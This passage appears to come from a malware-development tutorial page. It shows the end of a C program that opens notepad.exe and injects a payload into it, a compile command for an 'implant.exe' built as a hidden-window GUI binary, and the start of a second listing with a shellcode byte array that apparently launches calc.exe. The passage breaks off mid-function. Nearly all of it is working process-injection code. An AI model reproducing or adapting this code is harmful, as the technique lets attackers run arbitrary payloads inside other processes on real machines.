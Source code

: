     if (pid) {
        printf("Notepad.exe PID = %d\n", pid);

        // try to open the target process
        hProc = OpenProcess(PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION |
            PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE,
            FALSE, (DWORD)pid);

        if (hProc != NULL) {
            Inject(hProc, payload, payload_len);
            CloseHandle(hProc);
        }
    }
    return 0;
}

</code></pre>

### GUITrick

* Select a Windows GUI application if using Visual Studio.
*   To manually compile, use&#x20;

    {% code overflow="wrap" %}
    ```batch
    cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tcimplant.cpp /link /OUT:implant.exe /SUBSYSTEM:WINDOWS /MACHINE:x64
    ```
    {% endcode %}

```c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tlhelp32.h>

unsigned char payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
  0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52,
  0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72,
  0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b,
  0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
  0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41,
  0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1,
  0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
  0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44,
  0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01,
  0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
  0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48,
  0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d,
  0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5,
  0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0,
  0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89,
  0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
unsigned int payload_len = 276;

int FindTarget(const wchar_t* procname) {

```